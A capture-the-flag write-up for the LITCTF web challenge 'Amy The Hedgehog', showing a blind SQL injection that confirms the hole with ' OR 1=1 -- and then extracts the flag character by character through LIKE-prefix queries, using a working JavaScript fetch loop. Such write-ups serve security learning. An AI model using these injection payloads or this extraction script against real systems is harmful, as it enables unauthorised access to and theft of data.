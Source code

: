 # web/Amy The Hedgehog

## Challenge

Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution

We have to guess Amy's crush (a synonym of "the flag"). Guessing `' OR 1=1 --` returns "(≧U≦❁) You got it!!!", so it is vulnerable.

Classic. We're given a yes/no response to a query.
To avoid brute force, we can figure out the flag character-by-character using `LIKE 'prefix%'` (trying `LITCTF{a%`, ..., `LITCTF{z%` to see `LITCTF{s%` matches, then `LITCTF{sa%`, ..., `LITCTF{sz%`, etc.).

We automate! We can open the Network panel in DevTools (inspector), submit a query with `' OR name LIKE 'sanic%' --`, and "copy as fetch" the request:
```js
await fetch("http://litctf.live:31770/", {
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded",
    },
    "body": "name=%27+OR+name+LIKE+%27LITCTF%7Bsanic%25%27+--",
    "method": "POST",
});
```
(This request has been stripped down to the essentials.)

Then, we just do some templating and map each possible character to a request:
```js
await (async () => {
    const chars = [..."}abcdefghijklmnopqrstuvwxyz"];
    let flag = "LITCTF{";
    while (true) {
        const res = await Promise.all(chars.map(async c=>
            (
                await (
                    await fetch("http://litctf.live:31770/", {
                        "headers": {
                            "Content-Type": "application/x-www-form-urlencoded",
                        },
                        "body": `name=%27+OR+name+LIKE+%27${flag}${c}%25%27+--`,
                        "method": "POST",
                    })
                ).text()
            ).includes("You got it!!!")
        )); // whether each character worked
        const next = chars.filter((_,i) => res[i]); // correct character(s) (hopefully singular)
        console.log(next);
        if (next.length != 1) throw new Error("bruh");
        flag += next[0];
        if (next[0] == "}") break;
    }
    return flag;
})();
// LITCTF{sldjf}
```
(This is run in the console on the same page, to avoid CORS issues.)


Note `LIKE` queries are case-insensitive, but it happens that the flag's content is all lowercase, as guessing this flag directly confirms it works.

## Flag

`LITCTF{sldjf}`
